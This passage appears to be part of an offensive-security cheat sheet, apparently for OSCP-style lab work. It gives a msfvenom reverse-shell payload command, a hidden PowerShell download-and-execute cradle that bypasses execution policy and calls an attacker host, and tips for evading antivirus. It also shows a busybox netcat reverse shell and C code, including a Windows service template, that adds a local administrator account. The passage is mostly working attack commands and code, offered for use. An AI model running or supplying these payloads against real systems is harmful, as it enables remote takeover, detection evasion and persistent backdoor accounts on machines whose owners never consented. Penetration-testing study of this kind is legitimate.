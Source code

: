 ```powershell
# set execution policy
powershell.exe
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
# generate payload for the above script, below one works only in x86 poweshell not in x64
msfvenom -p windows/shell_reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
# delivery/download
powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/AVbypass.ps1'); Invoke-Function
```

> **AV evasion**: Change code like var name, func name with more generic names for interpreted scripts to evade AV [_Kleenscan.com_](https://kleenscan.com/)
#### Linux Shell
```shell
bash -c "<revshell-bash>"
# Some version of nc doesn't have the -e feature
busybox nc 192.168.45.175 7755 -e /bin/bash  # mostly work on every place as compared to other places 
```
### Source C Code
#### Windows Service C code
```c title:Simple one
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

```c title:windows_service.c
// x86_64-w64-mingw32-gcc winservice.c -o winservice.exe
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("whoami > c:\\windows\\temp\\service.txt");
	system ("net user oscpstudent password123! /add");
	system ("net localgroup administrators oscpstudent /add");

    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
```